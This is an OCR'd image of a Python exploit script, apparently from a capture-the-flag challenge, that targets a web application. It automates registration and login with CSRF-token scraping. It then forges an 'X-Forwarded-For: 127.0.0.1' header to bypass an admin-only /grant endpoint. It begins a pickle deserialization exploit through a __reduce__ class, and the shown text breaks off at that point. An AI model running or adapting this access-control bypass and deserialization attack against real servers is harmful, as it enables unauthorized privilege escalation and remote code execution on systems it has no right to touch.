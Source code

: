 ```python
    return "cat_" + ''.join(random.choices(string.ascii_letters + string.digits, k=8))

# Extract CSRF token from HTML
def get_csrf_token(response_text):
    soup = BeautifulSoup(response_text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'csrf_token'})
    return csrf_input['value'] if csrf_input else None

# Part 1: Register user
def register_user(username, password):
    session = requests.Session()
    # Get CSRF token
    response = session.get(f"{BASE_URL}/register")
    csrf_token = get_csrf_token(response.text)

    # Submit registration
    response = session.post(f"{BASE_URL}/register", data={
        "username": username,
        "password": password,
        "confirm_password": password,
        "csrf_token": csrf_token
    })
    if response.status_code == 200:
        logger.info("User registered successfully.")
    else:
        logger.error("Registration failed.")
    return session.cookies

# Part 2: Login user
def login_user(username, password, session_cookies):
    session = requests.Session()
    # Get CSRF token
    response = session.get(f"{BASE_URL}/login", cookies=session_cookies)
    csrf_token = get_csrf_token(response.text)

    # Submit login
    response = session.post(f"{BASE_URL}/login", data={
        "username": username,
        "password": password,
        "csrf_token": csrf_token
    }, cookies=session_cookies)
    if response.status_code == 200:
        logger.info("Login successful.")
    else:
        logger.error("Login failed.")
    return session.cookies

# Part 3: Grant beta access
def grant_beta_access(username, session_cookies):
    response = requests.post(f"{BASE_URL}/grant", headers={
        "X-Forwarded-For": "127.0.0.1",
        "Content-Type": "application/json"
    }, json={"username": username}, cookies=session_cookies)

    if response.status_code == 200:
        logger.info("Beta access granted.")
    else:
        logger.error("Grant access failed.")

# Part 4: Exploit pickle vulnerability
def exploit(session_cookies):
    class P(object):
        def __reduce__(self):
```